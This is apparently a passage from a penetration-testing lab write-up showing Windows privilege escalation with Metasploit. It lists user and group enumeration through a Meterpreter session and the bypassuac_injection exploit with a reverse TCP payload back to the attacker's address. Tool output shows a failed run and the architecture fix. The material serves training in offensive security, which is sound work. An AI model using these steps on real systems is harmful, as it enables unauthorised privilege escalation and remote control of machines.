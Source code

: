 ```bash
shell
```

- On the Windows target `cmd`

```bash
net users
	admin Administrator Guest

net localgroup administrators
    Members
    -------------
    admin
    Administrator
# Yes, "admin" is part of the Administrators group
# but doesn't have administrative privileges through the Meterpreter session
exit
```

#### Bypass UAC

```bash
background
sessions
	2 meterpreter x64/windows VICTIM\admin @ VICTIM 10.10.24.6:4444 -> 10.2.18.116:49219 (10.2.18.116)
```

```bash
search bypassuac
use exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
set SESSION 2
set LPORT 5533
run
```

```bash
[*] Started reverse TCP handler on 10.10.24.6:5533 
[+] Windows 2012 R2 (6.3 Build 9600). may be vulnerable.
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[-] Exploit aborted due to failure: bad-config: x86 Target Selected for x64 System
[*] Exploit completed, but no session was created.
```

- Select the correct target - `x64`

```bash
set TARGET Windows\ x64
run
```

![Metasploit - exploit/windows/local/bypassuac_injection](.gitbook/assets/image-20230419201340464.png)

